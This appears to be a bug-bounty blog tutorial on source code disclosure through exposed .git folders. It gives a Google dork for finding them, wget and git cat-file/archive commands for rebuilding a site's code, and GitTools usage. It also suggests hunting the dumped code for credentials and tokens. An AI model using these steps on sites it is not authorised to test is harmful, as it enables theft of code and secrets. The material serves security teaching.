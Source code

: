 ```yaml
---
date: 2020-07-17 00:34:45
layout: post
title: "Insecure Source Code Management"
subtitle:
description: In this article, I will be explaining you the concept of a source code disclosure vulnerability and various risks associated with it.
image: /assets/img/uploads/source-code-disclosure/norris.png
optimized_image: /assets/img/uploads/source-code-disclosure/norris-optimized.png
category: exploitation
tags: source-code-disclosure bug-bounty
author: madhavmehndiratta
paginate: false
keywords: insecure source code management, source code disclosure, source code disclosure via .git folder, how to extract contents of .git folder, exploiting source code disclosure, infosec articles
---
```


## Introduction

When attacking a website, obtaining its source code can be extremely helpful for constructing an exploit. This is because many bugs, like SQL injections, are way easier to find using static code analysis as compared to black-box testing.
Obtaining a web application's source code also means getting a hold of all developer comments, hardcoded API keys, and all other sensitive data. So the source code of a web application should always be protected from public view. Many developers unknowingly upload the source code of their entire project to the internet, and this is where information leaks occur.

## Finding a .git Folder

<center><br><br>
<img src="/assets/img/uploads/source-code-disclosure/google-dork.png">
</center>
<br>
There are many ways by which you can find a .git folder. The most popular is by searching for the following Google Dork: 

`intitle:"Index of /.git"` 

If the directory listing is enabled, then you could directly browse the .git folder’s contents as shown in the image below.

<center><br><br>
<img src="/assets/img/uploads/source-code-disclosure/directory-listing.png">
</center>

Another way is brute forcing the directories using open source tools such as dirb or dirsearch. They both look for .git 		folder. If automated tools are not allowed, simply go to web-app/.git (e.g. https://example.com/.git) on a browser. If you get a 404 error, then .git/ doesn’t exist on the application. But in some cases if you get a 403 Forbidden error, then it does! but not directly accessible if directory listing is disabled on the server.

## Extracting the Files Manually

Once the existence of the Git folder is confirmed and directory listing is enabled, you can download it using wget by using:

```r
madhav@anton:~$ wget -r -np https://example.com/.git/
```

The next step is to locate the HEAD, and then extracting the master hash. Once you have the hash for the master branch, you can execute the following command: 

`git cat-file -p <master hash>` 

```r
madhav@anton:~/www.example.com/.git$ cat HEAD 
ref: refs/heads/master

madhav@anton:~/www.example.com/.git$ cat refs/heads/master 
1fae33780305157184cd5563dd7696d32be0d3c5

madhav@anton:~/www.example.com/.git$ git cat-file -p 1fae33780305157184cd5563dd7696d32be0d3c5
tree 546b9a0b104ec962ed4dce6154bf2022076cb9c9
parent 88e6c84c8dd8c38646772fb359866fcfcf8740e4
author Foo <example@gmail.com> 1583500079 +0100
committer GitHub <noreply@github.com> 1583500079 +0100
gpgsig -----BEGIN PGP SIGNATURE-----
 a9abJor19quHsI3ZWWcjOr0UnZ33sfIs8z0ITVV0O525j899LbmkIxLHmBnvgQ1y
 UeG5Js/OBaMBtv8j3Kbi4zzW+ETzvuqGGNSUXbv3OEEHRSaePkSQDiHwmpJAMCvC
 DmuFNwJpPL8T7hzX6jdM1r7i49KC70qooZKlx5+n9Y+0wHhSWWvEQmsJnl73oso9
 1wPYg3Qh+ImWvmOP2IDLuRG9qDd7uxd+Te09+CPnsjxF3n9lpbwlvJCievGY2DI=
 =lc27
 -----END PGP SIGNATURE-----

madhav@anton:~/www.example.com/.git$
```

This will give you the hash for the tree object which will lead you to the files of the project by executing the same command with the tree hash.

```r
madhav@anton:~/www.example.com/.git$ git cat-file -p 546b9a0b104ec962ed4dce6154bf2022076cb9c9
100755 blob 610cecd0bdab0faea045ef4f9bb861c862f7be03	LICENSE
100755 blob ec58df797c478eada515ea92bf3185ea6194edef	README.md
100644 blob 968a7233da85ea9edf0e56b223fe6ea1c6f1844e	cd.php
040000 tree 881998e68b54e759a8c06872aef8d5f4e9a08b39	css
100755 blob f4739221655f14501aa59da801d9708446bf01be	demo.php
100755 blob a5e1808b54ecf5119c4f8c2c3b868389f3fa6352	error.php
100755 blob 4061ddc0724b65ba54f6d1bbec4c4935e1f8649f	favicon.ico
040000 tree 979ce71e881e8e4fbf42da2cd547218f93daa4ea	font-awesome
040000 tree d8df5e7705085c10bffc38376394907b7514aa99	fonts
040000 tree 7a36fc98abdf572f629b85456e525242415dc76f	img
100755 blob f1c0edcfbd75ebad252dbeea4ab9c9df19712220	index.php
040000 tree bae3d0cfd5d74012d2fa35b9ccbfd74121d6f4d4	js
100755 blob 689d8cfad48fc2e0749ac0f2cb6786238d38287b	keybase.txt
040000 tree 444cc1c5c9c6a4bae757bc25adc9764f4a5a1485	less
100755 blob 2697029c1ba18340e044e6df68689548faed7a82	talks.php
madhav@anton:~/www.example.com/.git$
```
To extract the source code of the website into a compressed zip file, you can execute the following command:

```r
git archive --format zip --output "source.zip" <master-hash>
```

Now you will see a zip file named source.zip in the same directory. 

## Automating The Process

Browsing .git/ manually is good for proof of concept, but it is also a tedious job. If you want to retrieve as many files as possible, even with directory listing disabled, you can use the tool named <a href="https://github.com/internetwache/GitTools" rel=”nofollow”>GitTools.</a> 

```r
madhav@anton:~$ ./gitdumper.sh https://example.com/.git/ dest-dir/

git status          # To check the files that have changed
git checkout -- .   # To restore the files & download the directory
git log             # To see what other commits are there

```

Now you can analyze the local repository manually. Try to look for other vulnerabilities using static code analysis, or credentials, authentication tokens, new endpoints, etc.
## Conclusion

There are many famous websites which do not deny access to the .git/ folder therefore anyone can download their source code and possibly other sensitive data. This issue is not hard to detect and mitigate, so take a minute to make sure that your webserver isn’t misconfigured.

That’s it! I hope you understood the concept of source code disclosure vulnerability and the risk associated with it. Thanks for reading. Stay tuned for similar tutorials and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/fabric8" rel=”nofollow”>Fabricio Rosa Marques.</a>